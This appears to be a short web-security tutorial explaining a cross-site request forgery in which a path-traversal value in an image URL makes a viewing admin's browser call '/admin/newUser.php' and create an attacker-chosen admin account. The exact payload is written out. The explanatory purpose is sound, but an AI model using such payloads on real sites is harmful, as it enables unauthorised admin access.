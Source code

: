 That gets rendered as:

```html
<tr>
  <td><img src="/images/question.gif"></td>
  <td>daf</td>
  <td>foo</td>
</tr>
```

---

#### **First Thought**: Try XSS

But `<` and `>` are HTML-encoded — so no `<script>` injection.

---

#### **Second Look**: The `<img src>` is partially user-controlled

The `type` parameter decides part of the image URL:

```
/images/[type].gif
```

Even if you can’t break out of the quotes, you can **change the path**:

```
../admin/newUser.php?username=daf2&password=0wned&role=admin#
```

The `<img>` now becomes:

```html
<img src="../admin/newUser.php?username=daf2&password=0wned&role=admin#.gif">
```

---

### **Why This Works**

1. Browser tries to **load the image**.
2. That "image" URL is actually a **GET request to /admin/newUser.php**.
3. If an **admin** is viewing the message:

   * The request is sent with **their session cookies**.
   * The server thinks *they* are adding the user.
4. `#` ends the URL so `.gif` is ignored (or `&` can be used to add `.gif` as a parameter).

Result: **New admin account created**.

---

### **No JavaScript Required**

* Even if JS is disabled, `<img>` tags still load.
* XSS prevention doesn’t stop this — because the payload doesn’t need `<script>`.

---